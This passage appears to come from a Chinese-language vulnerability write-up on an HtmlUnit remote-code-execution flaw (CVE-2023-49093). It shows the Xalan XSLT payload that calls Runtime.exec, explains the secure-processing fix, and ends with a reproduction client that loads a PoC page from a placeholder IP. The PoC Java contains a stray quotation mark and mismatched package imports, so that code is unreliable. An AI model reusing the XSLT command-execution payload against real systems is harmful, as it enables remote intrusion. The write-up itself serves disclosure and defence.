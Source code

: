 ##### Xalan

-   Xalan 是一个开源的 XML 处理器，主要用于 XSLT 转换以及 XPath 查询。它最初是由 Apache XML 项目开发的一部分，其中包括了 Xalan-Java 和 Xalan-C++ 两个主要版本。Xalan-Java 是用 Java 语言编写的 XSLT 处理器，能够将 XML 文档转换为其他格式。
    
-   声明了 XSLT 命名空间为`xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"`，你就可以在 XML 文档中使用 "rt" 前缀来引用这个命名空间中定义的元素和属性。
    
-   下面 Java 调用扩展函数，有关 Java 扩展的三种不同格式的命名空间声明。文中的 poc 是包格式命名空间
    
    -   **创建对象的实例**：XSLT 中并没有默认对象的概念，命名空间声明不能唯一地标识一个类，所以要创建实例。`<xsl:variable name="rtobject" select="rt:getRuntime()"/>`：返回的是当前运行时环境的对象实例。
        
    -   **要在指定实例上调用实例方法**：
        
        -   `<xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>`，通过调用 `rt:exec` 函数，XSLT 尝试执行一个外部命令，执行结果将被存储在名为 "process" 的变量中。
            -   `<xsl:variable name="processString" select="ob:toString($process)"/>`XSLT 将结果转换成字符串。

### 修复方案

该漏洞的根本原因在于 HTMLUnit 没有对 XSL 转换进行充分的限制，从而导致了安全问题。具体来说，它没有对 XSLT 的外部连接进行适当的限制。由于 XSL 文件中引用了 Xalan 库，并利用库中函数导致了远程命令执行的漏洞。

针对此问题，作者的修复操作是在 xml/XSLTProcessor.java 文件中新增了一行代码：`transformerFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`

其中 `FEATURE_SECURE_PROCESSING` 是一个安全属性。设置为 true 后，指示实现在处理 XML 时采取安全措施，包括对外部连接的限制。这样就可以避免因为使用外部引用处理 XML/XSD/XSL 而出现问题。

## CVE-2023-49093

### 影响范围

HtmlUnit 3.8.0 之前版本

### 漏洞复现

Pom.xml

```plain
<dependency>
  <groupId>org.htmlunit</groupId>
  <artifactId>htmlunit</artifactId>
  <version>3.8.0</version>
</dependency>
```

Poc.java（==注意这里的浏览器版本是 BrowserVersion.INTERNET\_EXPLORER==）

```plain
package org.example;
import com.gargoylesoftware.htmlunit.BrowserVersion;
import com.gargoylesoftware.htmlunit.WebClient;
import com.gargoylesoftware.htmlunit.html.HtmlPage;
import org.junit.Test;

import java.io.IOException;

public class App {
    @Test
    public static void main(String[] args) throws IOException {
        try (final WebClient webClient = new WebClient(BrowserVersion.INTERNET_EXPLORER)) {
            // no you have a running browser and you can start doing real things
            // like going to a web page
            final HtmlPage page = "webClient.getPage("http://xxx.xxx.xxx.xxx/poc.html");
        }
    }
}
```